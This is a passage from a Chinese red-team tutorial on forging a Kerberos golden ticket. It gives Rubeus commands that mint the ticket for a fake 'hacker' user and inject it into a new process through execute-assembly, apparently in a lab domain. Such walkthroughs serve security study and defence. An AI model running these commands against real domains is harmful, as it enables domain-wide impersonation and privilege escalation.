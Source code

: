 使用命令本地生成黄金票据，aes 是目前标准的加密方法，/user 指定任意的用户名，域控制器中的 KDC 服务不验证 TGT 中的用户帐户，直到 TGT 超过 20 分钟，用户可以是不存在的用户，kerberos 是静态协议，在我们这侧工具会自动把我们伪造的用户指定在管理员组，域控只会被动接受这个事实，/nowrap 是让票据变成一行方便我们复制粘贴：

```plain
Rubeus.exe golden /aes256:4a3d7520e5249a47c1fea8584229f5278a3a0b6d3fa3545aedb29b1cae457ead /user:hacker /domain:endlessparadox.com /sid:S-1-5-21-3455334608-937969980-1598144099 /nowrap
```

[![](assets/1707953845-df28feb5a24368b42a8c72aa0d2e7f39.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040353-afc7e226-c461-1.png)

execute-assembly命令用于远程拉取c#文件不落地执行，这里执行Rubeus的createnetonly命令，将创建一个新的cmd进程将票据注入其中，/ticket参数后面跟上刚刚生成的base64票据，不是很大，我们复制过来：

```plain
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:hacker /password:123456 /ticket:doIFlz····NvbQ==
```

[![](assets/1707953845-d89b09af5eeef0312f65980e67d2e25b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040405-b6cfc638-c461-1.png)

执行成功了，控制台内容详细的展示了我伪造的进程 pid:
